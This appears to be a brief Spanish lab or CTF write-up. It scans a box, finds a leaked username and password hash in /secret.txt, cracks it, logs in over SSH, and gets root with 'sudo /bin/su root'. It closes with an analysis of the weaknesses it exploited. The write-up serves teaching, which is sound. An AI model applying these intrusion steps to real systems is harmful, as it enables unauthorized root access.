 # CC Pentesting
## Initial Scan
```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 12:96:a6:1e:81:73:ae:17:4c:e1:7c:63:78:3c:71:1c (RSA)
|   256 6d:9c:f2:07:11:d2:aa:19:99:90:bb:ec:6b:a1:53:77 (ECDSA)
|_  256 0e:a5:fa:ce:f2:ad:e6:fa:99:f3:92:5f:87:bb:ba:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Enum
### HTTP
#### Gobuster
```
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/secret (Status: 301) <-- Vacio y no listable
/server-status (Status: 403)
```
#### Gobuster 2
```
/secret.txt (Status: 200) <- Aquí hay unas creds
```
Sacamos las creds y crackeamos el hash
```
nyan:046385855FC9580393853D8E81F240B66FE9A7B8
```
Una vez crackeado el hash entramos via ssh

## Privesc
```
User nyan may run the following commands on ubuntu:
    (root) NOPASSWD: /bin/su
```
Privesc bastante sencillo 
```
sudo /bin/su root
```
Y ya estamos dentro

# Analisís de la intrusión
### Sensible information leak
Se han filtrado las credenciales de un usuario en un lugar accesible al público lo que nos permitio acceder
### Bad password policie
Las contraseña de nyan esta en las principales wordlists, lo que nos prmitio crackearlas con mucha rapidez
### Privileged su execution
El binario su puede ser ejecutado como superusuario por el usuario nyan como superusaurio lo que nos condujo a elevar privilegios en el sistema
